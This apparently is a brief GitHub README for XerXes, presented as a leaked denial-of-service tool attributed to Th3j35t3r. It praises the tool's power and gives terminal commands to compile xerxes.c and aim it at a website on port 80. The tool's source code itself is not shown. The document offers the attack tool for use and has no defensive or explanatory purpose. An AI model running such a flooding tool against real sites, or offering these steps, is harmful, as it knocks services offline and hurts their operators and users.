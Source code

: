 # XerXes
The DoS tool created by Th3j35t3r, considered one of the most powerful tools since it's creation, leaked by Lulzsec.

In order to use it, type in the terminal:

...
gcc xerxes.c -o xerxes
./xerxes www.fakesite.com 80
...
